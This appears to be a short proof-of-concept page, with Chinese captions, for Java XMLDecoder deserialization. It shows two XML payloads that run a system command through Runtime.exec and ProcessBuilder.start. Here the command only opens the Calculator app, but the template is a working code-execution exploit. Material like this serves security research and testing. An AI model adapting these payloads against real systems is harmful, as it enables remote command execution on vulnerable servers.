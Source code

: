 ## POC
 - `Runtime.getRuntime().exec()`执行命令.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_66" class="java.beans.XMLDecoder">
    <object class="java.lang.Runtime" method="getRuntime">
        <void method="exec">
            <array class="java.lang.String" length="3">
                <void index="0">
                    <string>open</string>
                </void>
                <void index="1">
                    <string>-a</string>
                </void>
                <void index="2">
                    <string>Calculator</string>
                </void>
            </array>
        </void>
    </object>
</java>
```

 - `ProcessBuilder("cmd").start()`执行命令.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_66" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>open</string>
            </void>
            <void index="1">
                <string>-a</string>
            </void>
            <void index="2">
                <string>Calculator</string>
            </void>
        </array>
        <void method="start"></void>
    </object>
</java>
```
